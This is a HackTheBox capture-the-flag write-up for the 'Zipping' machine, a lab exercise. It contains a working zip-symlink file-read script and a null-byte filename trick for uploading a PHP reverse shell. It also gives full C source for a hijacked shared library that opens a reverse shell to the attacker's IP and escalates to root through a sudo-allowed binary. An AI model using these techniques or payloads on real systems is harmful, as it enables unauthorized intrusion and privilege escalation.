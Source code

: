 # [Zipping](https://app.hackthebox.com/machines/Zipping) - 27/08/2023 - HackTheBox write-up


## User flag

### Discovery

We have a web app and a SSH server and nothing else, so it will be web exploitation.

After a few minutes, we can find an upload form, to upload a PDF in a Zip file.

### Searching for vulnerability

So, I tried some classic Zip vulnerability, Zip slip and Zip symlinks. The second method seems to work, and we can read arbitrary file from the server. I use the following script:
```bash
#!/bin/bash

HOST="http://10.10.11.229"
PROXY="http://127.0.0.1:8080"

zip="link.zip"
pdf="link.pdf"

file=$1     # We supply the file as parameter

rm -f ${pdf} ${zip}
ln -s ../../../../../../../../../..${file} ${pdf}
zip --symlinks ${zip} ${pdf}

uploaded_file=$(curl -s -k -x "${PROXY}" \
    -F zipFile=@${zip} -F submit="" \
    ${HOST}/upload.php \
    | grep -Eo "uploads/[a-f0-9]+/${pdf}" | head -n 1)

curl -k -x ${PROXY} ${HOST}/${uploaded_file}
```

### Exploitation

Then I started searching for interesting file, configuration, source code etc... And I find a username `rektsu` in a configuration file. So, I tried to read `/home/rektsu/user.txt` and it works, because he's the Apache user. But I don't think it was the intended way because after obtaining the flag, I'm just stuck for the next steps.

### Obtain a shell access

Finally we can read the flag this way but there is another step to obtain a shell on the machine as `rektsu`. We need to exploit the upload feature to upload a PHP script to run a reverse shell first.

By inspecting the code we can see that is vulnerable to a null byte injection in the name of the uploaded file because it uses only the `pathinfo` function. So we need to upload a reverse shell with for example the name : `revshell.php%00.pdf`, to pass the extension verification.

The problem is we can only upload a Zip file, and we cannot add null byte in the name of real file on a system. So we need to use another trick. The trick is:
    - Create a classic PHP reverse shell
    - Name it: `revshell.php0.pdf` (with `0` can be any ASCII char)
    - Compress it with zip
    - Edit the zip with an hex editor (for example `ghex`) and replace the previous character in the name (`0`) with a null byte (`00`) at the end of the archive.

With this, the zip file remains correct, the extension check accept it, but when extract it with `7z` the file will be `revshell.php` because the null byte means the end of the string in the zip. So we can access our newly uploaded script and obtain the shell.

## Root flag

### Searching for elevating privileges

The privilege escalation part was easier than the user part. First we can upload a SSH public key to the `rektsu` account to obtain a persistant access. Two things to remember for a working SSH access:
    - Name the keys `id_rsa` and `id_rsa.pub`, don't rename it
    - Change rights of the `.ssh` directory and `authorized_keys` if needed:
        - `chmod 0700 .ssh/`
        - `chmod 0640 .ssh/authorized_keys`

After that we can start searching for any way to do privilege escalation. It's easier to find, just with a `sudo -l`:
```bash
$ sudo -l
[...]
User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock
```

This executable is an ELF binary, we probably needs to do a little bit of reverse engineering. We can get back the binary to our attack machine to inspect it. First after running it, the program ask us a password. By running a simple `strings` or directly opening it with `Ghidra` we can find the password: `St0ckM4nager`.

Then, in `Ghidra` we can find that there is a `dlopen` call to open a dynamic library in the program, right after submitting the password. With a xor, the name of the library is hidden, but we can easily retrieve by running the executable with `strace`:
```
$ strace ./stock
[...]
write(1, "Enter the password: ", 20Enter the password: )    = 20
read(0, St0ckM4nager
"St0ckM4nager\n", 1024)         = 13
openat(AT_FDCWD, "/home/rektsu/.config/libcounter.so", O_RDONLY|O_CLOEXEC) = -1 ENOENT (Aucun fichier ou dossier de ce type)
write(1, "\n================== Menu ======="..., 44
```

So, the program load the library `/home/rektsu/.config/libcounter.so`. Fortunately for us, this folder is writeable by `rektsu`. So, we need to create a shared library to execute arbitrary code as `root` user.

### Exploitation

To do this, I tried first to overload the `printf` function to let the program call my code at the next execution of `printf`. But it doesn't work because the program execute the real `printf` function. So, I kept searching for a way, and I find this resource: [link](https://www.secureideas.com/blog/2021/ldpreload-runcode.html).

We can run specials functions at the beginning and the end of the loading of the library with particular attributes. I wrote this little library:
```C
#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>

#define REMOTE_ADDR "10.10.14.184"
#define REMOTE_PORT 56385

int run_rev_shell(void)
{
    printf("[+] Start reverse shell");
    struct sockaddr_in sa;
    int s;

    sa.sin_family = AF_INET;
    sa.sin_addr.s_addr = inet_addr(REMOTE_ADDR);
    sa.sin_port = htons(REMOTE_PORT);

    s = socket(AF_INET, SOCK_STREAM, 0);
    connect(s, (struct sockaddr *)&sa, sizeof(sa));
    dup2(s, 0);
    dup2(s, 1);
    dup2(s, 2);

    execve("/bin/bash", 0, 0);
    return 0;
}

void __attribute__((constructor)) run_me_first() {
    printf("[+] Loading libcounter.so");
    run_rev_shell();
}

void __attribute__((constructor)) run_me_last() {
    printf("[+] Exiting");
}
```

Then we compile it this way: 
```bash
$ gcc -fPIC -shared -o libcounter.so rev.c
```

The final step was to upload our library to the desired place `/home/rektsu/.config/libcounter.so`, and run:
```bash
sudo /usr/bin/stock
```

We obtain a reverse shell from our listener and we can get the root flag !
